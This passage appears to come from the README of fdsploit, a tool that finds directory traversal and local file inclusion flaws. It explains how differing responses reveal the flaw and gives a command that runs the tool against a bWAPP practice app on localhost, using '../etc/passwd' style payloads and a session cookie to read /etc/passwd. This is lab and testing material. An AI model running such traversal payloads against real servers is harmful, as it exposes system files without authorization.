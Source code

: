 <img src="images/directory_traversal.png" width="70%">

#### 2. LFI vulnerability discovery:

Again, the language parameter seems vulnerable to **LFI** since using `../etc/passwd` _etc.._ as payload, every request being colored with green produces a different hash, a different content-length from the initial, and the keyword specified is found in the response:

```python
./fdsploit.py -u 'http://127.0.0.1:8888/test/bWAPP/bWAPP/rlfi.php?language=*&action=go' -c 'PHPSESSID=7acf1c5311fee614d0eb40d7f3473087; security_level=0' -d 7 -k root -p /etc/passwd
```